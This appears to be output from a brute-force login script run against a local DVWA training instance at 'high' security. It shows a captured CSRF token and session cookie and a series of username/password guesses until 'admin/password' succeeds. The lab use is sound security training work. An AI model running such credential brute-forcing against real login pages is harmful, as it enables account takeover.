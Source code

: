 
[i] URL: http://127.0.0.1/DVWA/login.php
[i] Data: {'username': 'admin', 'password': 'password', 'user_token': '96d481b99a24bc5e9ef0c30b2cff5f77', 'Login': 'Login'}
[i] Cookie: {'PHPSESSID': '3fa4011c9fcf81f919ca1f84eab1e0d0', 'security': 'high'}

[i] Logged in! (admin/password)

[i] Try 1: tuananh // tuananh
[i] Try 2: xinchao // tuananh
[i] Try 3: hater // tuananh
[i] Try 4: admin // tuananh
[i] Try 5: suboi // tuananh
[i] Try 6: harrow // tuananh
[i] Try 7: moment // tuananh
[i] Try 8: tuananh // xinchao
[i] Try 9: xinchao // xinchao
[i] Try 10: hater // xinchao
[i] Try 11: admin // xinchao
[i] Try 12: suboi // xinchao
[i] Try 13: harrow // xinchao
[i] Try 14: moment // xinchao
[i] Try 15: tuananh // password
[i] Try 16: xinchao // password
[i] Try 17: hater // password
[i] Try 18: admin // password


[i] Found!
[i] Username: admin
[i] Password: password
